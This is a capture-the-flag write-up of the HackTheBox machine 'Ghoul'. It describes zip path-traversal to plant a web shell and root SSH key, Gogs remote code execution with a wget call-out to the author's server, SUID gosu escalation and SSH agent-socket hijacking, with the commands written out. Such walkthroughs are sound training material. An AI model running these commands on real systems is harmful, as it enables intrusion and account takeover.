 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-05-15-ghoul-hackthebox
tags:
- cve
- git
- gogs
- hackthebox
- linux
- ssh agent forwarding
- zip traversal
title: Ghoul @ HackTheBox
---
```


Ghoul is a nice 40 points machine on hackthebox involving zip traversal, lateral movement, public exploits and some obscure hidden password in a git repository ;)

## User Flag

As usual we start with a tcp port scan:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c1:1c:4b:0c:c6:de:ae:99:49:15:9e:f9:bc:80:d2:3f (RSA)
|_  256 a8:21:59:7d:4c:e7:97:ad:78:51:da:e5:f0:f9:ab:7d (ECDSA)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Aogiri Tree
2222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 63:59:8b:4f:8d:0a:e1:15:44:14:57:27:e7:af:fb:3b (RSA)
|   256 8c:8b:a0:a8:85:10:3d:27:07:51:29:ad:9b:ec:57:e3 (ECDSA)
|_  256 9a:f5:31:4b:80:11:89:26:59:61:95:ff:5c:68:bc:a7 (ED25519)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Aogiri
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88 - Error report
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is a website on port 80 but we can not get too much information out of it. A bit file and directory busting shows a secret.php, where we find a chat protocol:

![](htb_ghoul_chat.png)

The Flag is obviously a trolling attempt but we save the string "ILoveTouka" which turns out to be useful later on. We switch to port 8080 which is asking for basic authentication. After trying some things we eventually try admin:admin,get in and find an upload form:

![](htb_ghoul_upload.png)

We try some uploads but cant really see where it is being put. I remember an exploit I did on 2018-08-18-exploiting-limesurvey where we could create a zip with relative paths in it to get a shell. This technique works here as well. To create the zip we run:

```
zip fuck.zip ../../../../../../../var/www/html/shell.php
```

If you want to do it that way you have to put the shell.php (I used p0wny shell) in your local /var/www/html folder. You can also do `zip fuck.zip shell.php`and edit the paths inside the zip with a hex editor.

After getting a shell (http://10.10.10.101/shell.php) we notice that the file we wrote was created as root. We create another payload, this time overwrite the authorized\_keys file of root, allowing us to ssh into the box as root:

```
ssh-keygen # create xct.key
ssh-keygen -y -f xct.key > xct.pub
cat xct.pub > /root/authorized_keys
sudo zip root.zip ../../../../../../../../root/.ssh/authorized_keys
```

This was probably not the intended way as several clues and notes on the box do not really make sense to me. In "/home/kaneki/" we find the user flag.

## Root Flag

We notice three users on the box Eto, kaneki and noro. All of them have ssh private keys in "/var/backups/backups/keys". The key from kaneki is however protected by a pass phrase. The chat protocol we found earlier suggested that something is on kanekis machine so that is our next target. To get an overview of the network we do a quick scan through the comprised host (we know from ifconfig that the target network is 172.20.0.x):

```
for i in {1..255}; do ping -c1 172.20.0.$i; done 2>/dev/null | grep "time"
64 bytes from 172.20.0.150: icmp_seq=0 ttl=64 time=0.088 ms
```

We notice we can reach a system on 172.20.0.150. We try to ssh into it with kaneki by guessing his passphrase. Eventually we try the string we found in the chat protocol "ILoveTouka" which succeeds in unlocking the key. However we still can not ssh into the box. Grepping through the whole box for "kaneki" we notice that at one point in "/home/kaneki/.ssh/authorized\_keys" the user "kaneki\_pub" is mentioned. Sure enough using that user to ssh into our target works.

Note that we used 10.10.10.101 as a jump host specified by the "-J" Parameter, a neat feature of newer ssh versions. On kaneki-pc we find a to-do.txt in his home folder saying "Give AogiriTest user access to Eto for git.". A quick ifconfig reveals that we are connected to a new subnet so we start to scan for the git box that is mentioned:

```
for i in {1..255}; do ping -c1 172.18.0.$i; done 2>/dev/null | grep "time"
64 bytes from 172.18.0.1: icmp_seq=0 ttl=64 time=0.084 ms
64 bytes from 172.18.0.2: icmp_seq=0 ttl=64 time=0.135 ms
64 bytes from 172.18.0.200: icmp_seq=0 ttl=64 time=0.036 ms
```

Since .1 is the gateway and .200 our own box the git server has to be at .2. We scan the box to get more information:

```
for p in {1..65535}; do echo hi > /dev/tcp/172.18.0.2/$p && echo port $p is open > scan 2>/dev/null; done 
cat scan
port 3000 is open
```

We setup a dynamic port forwarding through the jump host and use firefox to look at the page:

```
ssh -D9090 -N -i xct.key -J root@10.10.10.101 kaneki_pub@172.20.0.150
```

![](htb_ghoul_gogsweb.png)

The note suggested which user to use but we do not have the password yet. It turns out the credentials for gogs are AogiriTest:test@aogiri123. You can find the password on the host aoigiri in the tomcat configuration.

After logging in we notice that we don’t have much permissions and can’t really proceed. We search for public exploits and find this [one](https://github.com/TheZ3ro/gogsownz). We run the exploit and see that we have indeed RCE:

```
python -m SimpleHTTPServer 8000
proxychains python3 gogsownz.py http://172.18.0.2:3000/ -v -n 'i_like_gogits' -C 'AogiriTest:test@aogiri123' --rce "wget http://172.18.0.200:8000/`whoami`"
172.18.0.2 - - [16/May/2019 16:52:51] "GET /git HTTP/1.1" 404 -
```

We know now that the user is called git – to get a shell we add our public key to gits authorized\_keys file and ssh into gogs:

```
proxychains python3 gogsownz.py http://172.18.0.2:3000/ -v -n 'i_like_gogits' -C 'AogiriTest:test@aogiri123' --rce '
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxq8HpFRiU3k7QGnHx5hrLtU/HrzA7msjPB7g1qtXxO1PyJyhu8P2+3+tDDllLUps8KY2zOVOBfXC6+bZspMYehZobuIuCm1VyJFAfeWvE62/B/RNdee1hRXlvBx0x2o/CiCWy+vqctNFmoT6h/yd3KViBR5uSkUWLOS0Maf+FjGeb7RPiNz0glLdU2027qZviSYZ/AGXKkCJYlgoyHOOexoOeUbbcKfKowiYGyCF5vV1Hqc3fr5cnNQmoa0RosaJVzlO+wp7HcZl33ItgOrAdAWicPQfoGBcdxhYUsnI4Ek957pkDaB73fBBDw9VJbR242q4j6SWLTRE0e3BrRQfR" > /home/git/.ssh/authorized_keys'

ssh -J root@10.10.10.101,kaneki_pub@172.20.0.150 git@172.18.0.2
3713ea5e4353:~$ whoami
git
```

To escalate privileges we look for suid binaries with `find / -perm -u=s -type f 2>/dev/null` and find "/usr/sbin/gosu". This binary allows to become root without effort:

```
3713ea5e4353:~$ gosu root bash
3713ea5e4353:/data/git# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

In the home folder of root we find "session.sh", which contains admin credentials for gogs and aogiri-app.7z, which contains a copy of a git repo. At this point I was stuck forever, like probably most of the other users, since there was nothing of value in that git repo.

As it turns out, we can find the password for root on kaneki-pc inside the repos reflog, a kind of local, temporary undo history of git. By using `git reflog | awk '{ print $1 }' | xargs gitk` we get a grapical view of the git history and can read the password.

![](htb_ghoul_reflog.png)

We use the password ‘7^Grc%C\\7xEQ?tb4’ to su to root on kaneki-pc and look around a bit. Inside /tmp we see some interesting stuff:

```
root@kaneki-pc:/tmp# ls -lah
total 28K
drwxrwxrwt 1 root       root       4.0K May 16 17:06 .
drwxr-xr-x 1 root       root       4.0K May 15 18:19 ..
drwx------ 1 root       root       4.0K Dec 16 07:36 ssh-1Oo5P5JuouKm
drwx------ 1 kaneki_adm kaneki_adm 4.0K Dec 16 07:36 ssh-FWSgs7xBNwzU
drwx------ 1 kaneki_pub kaneki     4.0K Dec 16 07:36 ssh-jDhFSu7EeAnz
-rw------- 1 root       root        400 May 15 18:19 sshd-stderr---supervisor-1wEv52.log
-rw------- 1 root       root          0 May 15 18:19 sshd-stdout---supervisor-seehSr.log
```

The folders starting with "ssh-" indicate that there is ssh forwarding going on through this host. We check the running processes in a loop and notice the following:

```
root       1351  0.0  0.1  74656  6568 ?        Ss   17:12   0:00 sshd: kaneki_adm [priv]
kaneki_+   1353  0.0  0.0  74656  3352 ?        S    17:12   0:00 sshd: kaneki_adm@pts/2
kaneki_+   1354  0.1  0.1  45188  5544 pts/2    Ss+  17:12   0:00 ssh root@172.18.0.1 -p 2222 -t ./log.sh
```

Every n minutes kaneki\_adm is sshing into 172.18.0.1 on port 2222 through this host. To hijack the forwarding we have to read the content of the "ssh-" folder that is created when the forwarding happens. On the next forwarding we quickly run the hijacking command, entering the hex value and agent id into the command and get the root flag upon successfully connecting:

```
SSH_AUTH_SOCK=/tmp/ssh-QEjvXz6cz2/agent.1162 ssh root@172.18.0.1 -p 2222

Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)
root@Aogiri:~# wc -lc root.txt
 1 33 root.txt
```

Thanks to [egre55](https://twitter.com/egre55) and [MinatoTW](https://twitter.com/minatotw_) for creating this fun box. Besides the obscurely hidden password in the git repository I did enjoy the box.